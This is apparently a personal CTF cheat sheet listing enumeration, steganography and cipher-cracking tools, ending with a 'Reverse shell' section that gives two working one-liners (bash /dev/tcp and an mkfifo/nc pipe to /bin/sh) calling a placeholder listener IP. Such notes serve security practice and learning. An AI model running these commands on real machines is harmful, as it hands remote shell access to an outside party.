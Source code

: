 # Tools and resources I have used on CTF's and Challenges

## Enumerating
### Linux
* LinEnum: https://github.com/rebootuser/LinEnum

## Steganography
### MP3
* Spectrum analyzer: https://academo.org/demos/spectrum-analyzer/

### Images
* ImageStegano Tool: https://github.com/varunon9/Image-Stegano
  * check bit planes
* steghide

## Crypto
### Cipher cracking
* Vigenère
  * https://f00l.de/hacking/vigenere.php
  * http://simonsingh.net/The_Black_Chamber/vigenere_cracking_tool.html
* Caesar
  * https://www.nayuki.io/page/automatic-caesar-cipher-breaker-javascript
  
## Reverse shell
### 1 - S: bash ; C: nc
* Server: bash -i >& /dev/tcp/LISTENING-IP/LISTENING-PORT 0>&1
* Client: nc -nlvp LISTENING-PORT

### 2 - S: nc ; C: nc
* Server: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LISTENING-IP LISTENING-PORT >/tmp/f
* Client: nc -nlvp LISTENING-PORT
